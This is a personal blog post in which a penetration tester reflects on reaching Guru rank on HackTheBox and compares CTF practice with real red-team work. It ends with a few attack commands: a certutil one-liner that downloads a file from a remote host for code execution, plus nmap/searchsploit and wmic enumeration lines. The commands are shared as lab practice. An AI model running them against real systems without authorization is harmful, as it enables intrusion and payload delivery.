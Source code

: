 ```yaml
---
layout:     post
title:      "HackTheBox (HTB) thoughts as Guru Rank"
#subtitle:   "Pentesting"
date:       2018-08-02
author:     "Tech"
header-img: "img/htb_final_dark.png"
tags:
    - RedTeam
    - Pentesting
    - Programming
    - Linux
---
```


![](/img/in-post/post-js-version/htb_final.png)

# HackTheBox (HTB) thoughts as Guru Rank :

Here are my random thoughts on HackTheBox, which will be known as HTB for the rest of the post.

##Background:
I completed the Offensive Security Certified Professional (OSCP) last year spring time. I shortly followed that by getting SecurityTube Linux Assembly Expert (SLAE), which started my prepration for Offensive Security Certified Expert (OSCE). During my SLAE course, I signed up for HTB as every other twitter post was about it. I solved two challenges and never logged back in. A few months go by and after drowning in OSCE prep, I needed a change of paste from living in shellcode all day. Under those circumstance, my official HTB journey began..

---

## Breaking Down HackTheBox

There are 7 ranks depending on completion of active machines and challenges:

- Noob >= 0%
- Script Kiddie > 5%
- Hacker > 20%
- Pro Hacker > 45%
- Elite Hacker > 70%
- Guru > 90% (My Rank)
- Omniscient = 100%

There are only 20 total machines that are active at one time, every week the oldest machine gets dropped and a new one gets added. There are a total of 57 challenges that cover the topics below:

- Reversing
- Crypto
- Stego
- Pwn
- Web
- Misc
- Forensics
- Mobile

---

## Omniscient?!

From start to end, my journey started with Noob rank (as everyone) and in a short three weeks ended with GURU rank. With that, I completed all 20/20 machines and 41 of the 57 challenges. I thought about going for omniscient, 16 challenges would only need to be completed.

I decided to move on from HTB at this point. Calculating my time, experience gain from the 16 left challenges and ROI on real life usefulness... Guru is alright with me.

I'm currently rank 60th place out of 50,000 registered members worldwide (as of JUNE 2018) & 6th Place for United States.

## My thoughts..

There's something that needs to be said, HTB vs the Real-World.

As a OSCP holder and a full time red team / penetration tester, some of the machines and challenges on HTB are out of scope to real life situations. It's awesome to learn new tricks and techniques as someone in the field, but none of this is going to help me on the daily really.

Someone on HTB once said:

> "That being said I wouldn't ever use a person's CTF History as an indicator of skill. It would be used for a willingness to learn outside of work hours which is probably more important."

These are not ALL going to be applicable in the real world but they are important to the creative thinking and other aspects of what pen-testing involves and therefore still worth your time to do them.

##Overall
This field were all in is everlearning. I believe HackTheBox is a great platform for all types of skill levels and even OSCP holders. They have a wide varity of machines for all levels of skill. I personally learn quite a few things and would like to leave some commands here..

```
 cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
 ```
 -- Getting code execution with certutil (used here to download file)

 ```
 nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
 ```
 -- Checks all results in Nmap's XML output with service version

 ```
 cmd.exe /c wmic service where started=true get name, startname
 ```
 -- List all started services only.
